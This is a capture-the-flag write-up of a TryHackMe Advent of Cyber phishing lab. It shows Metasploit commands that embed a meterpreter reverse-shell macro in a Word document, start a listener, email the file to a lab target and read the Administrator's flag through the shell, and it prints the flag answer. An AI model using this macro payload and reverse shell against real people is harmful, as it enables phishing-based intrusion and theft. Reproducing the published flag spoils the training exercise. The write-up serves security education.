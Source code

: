 ```yaml
---
title: "Advent of Cyber - Day 10 Phishing"
date: 2024-12-19 12:00:00 -500 
categories: [Advent of Cyber - Tryhackme, Day 05]
tags: [siem,exploit,flags,tryhackme,pentestingl,xxe]
author: Christoph K
---
```

[Advent of Cyber - Day 10  ](https://tryhackme.com/r/room/adventofcyber2024)


## Learning Objectives

- Understand how phishing attacks work
- Discover how macros in documents can be used and abused
- Learn how to carry out a phishing attack with a macro 


### Phishing Attacks 

Security is as strong as the weakest link! Often the human is the weakest link in this chain. That is where `Phishing` comes into place. It has a similar meaning like the word `fishing`. It works with `bait`to a usually large group of target users. Furthermore attacker often craft their messages with a sense of `urgency` so the user should take immediate action without thinking critically. 

The goal is to steal personal information or instlaling malware, usually by convincing the target user to fill out a form, open a file or click a link. 


### Macros

The needs of MS Office users can be vastly different, and there is no way that a default installation would cater to all of these needs. In particular, some users find themselves repeating the same tasks, such as formatting and inserting text or performing calculations. Consider the example of number-to-words conversion where a number such as “1337” needs to be expressed as “one thousand three hundred thirty-seven”. It would take hours to finish if you have hundreds of numbers to convert. Hence, there is a need for an automated solution to save time and reduce manual effort.

In computing, a macro refers to a set of programmed instructions designed to automate repetitive tasks. MS Word, among other MS Office products, supports adding macros to documents. In many cases, these macros can be a tremendous time-saving feature. However, in cyber security, these automated programs can be hijacked for malicious purposes.

To add a macro to an MS Word document for instance, we click on the View menu and then select Macros as pointed out by 1 and 2 in the screenshot below. We should specify the name of the macro and specify that we want to save it in our current document, as indicated by 3 and 4. Finally, we press the Create button.


## Tasks
- What is the flag value inside the flag.txt file that’s located on the Administrator’s desktop?



### What is the flag value inside the flag.txt file that’s located on the Administrator’s desktop?


First we build a malicious macro embedded in a MS Office document. We can use `metasploit` to do that. 

First we want to create a `tcp reverse connection`. Therefore we use following payload: 


- We used `set payload` for specify the payload we want to use 
- `use exploit` is the exploit we want to use, in this case `macros`


```bash

msf6 > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 > use exploit/multi/fileformat/office_word_macro
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/office_word_macro) > set LHOST 10.11.110.106
LHOST => 10.11.110.106
msf6 exploit(multi/fileformat/office_word_macro) > set LPORT 4444
LPORT => 4444
```

Next step is, we set the `parameters` for `LHOST`and `LPORT`. This is our system! We specify the parameters for the `reverse_tcp` connection, where to connect and which port to use!

```bash
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.11.110.106    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


```
And now we use `exploit` to create such file. 

``` bash

msf6 exploit(multi/fileformat/office_word_macro) > exploit

[*] Using template: /opt/metasploit-framework/embedded/framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: msf.docm
[+] msf.docm stored at /home/admin/.msf4/local/msf.docm
msf6 exploit(multi/fileformat/office_word_macro) >
```

We have now created a malicious file with a `tcp reverse connection`. 

Path: `home/admin/.msf4/local/msf.docm`


Now lets prepare our `listener`via `metasploit`:

```bash

msf6 exploit(multi/fileformat/office_word_macro) > use multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.110.106
LHOST => 10.11.110.106
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444

.
.
.
```

Now our `listener` listens to the Port `4444` and our `IP address`.

Our victom has to click the link now. For that we connect to the mailserver and send the macro file to the user.

![mail](assets/img/tryhackme/cyberadvent/day10/01.png )


Now we press `exploit` in our `metasploit session`:

```bash


[*] Started reverse TCP handler on 10.11.110.106:4444
[*] Sending stage (176198 bytes) to 10.10.102.140
[*] Meterpreter session 1 opened (10.11.110.106:4444 -> 10.10.102.140:49940) at 2024-12-22 15:26:09 +0100

meterpreter >
```

We have a connection to the victim! Now we search the flag:


```bash

meterpreter > cd C:/Users/Administrator/Desktop
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  527   fil   2016-06-21 17:36:17 +0200  EC2 Feedback.website
100666/rw-rw-rw-  554   fil   2016-06-21 17:36:23 +0200  EC2 Microsoft Windows Guide.website
100666/rw-rw-rw-  282   fil   2021-03-17 16:13:27 +0100  desktop.ini
100666/rw-rw-rw-  23    fil   2024-11-12 04:42:45 +0100  flag.txt

meterpreter > cat flag.txt
THM{PHISHING_CHRISTMAS}meterpreter >
```

Answer:`THM{PHISHING_CHRISTMAS}` 

### Thoughts

Very nice concept and nice teaching how to create a `reverse tcp connection` into a word file via `metasploit` and send this as mail to a victim! 
Thanks for the fun room! 